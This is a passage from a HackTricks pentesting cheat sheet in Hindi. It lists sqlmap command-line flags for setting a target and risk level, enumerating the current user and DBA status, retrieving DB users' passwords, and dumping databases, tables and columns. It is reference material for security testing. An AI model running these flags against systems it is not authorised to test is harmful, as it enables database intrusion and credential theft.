 <details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


# SQLmap के लिए मूल तर्क

## सामान्य
```bash
-u "<URL>"
-p "<PARAM TO TEST>"
--user-agent=SQLMAP
--random-agent
--threads=10
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>"
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=PROXY
```
## जानकारी प्राप्त करें

### आंतरिक
```bash
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
```
### डेटाबेस डेटा
```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```
# इंजेक्शन स्थान
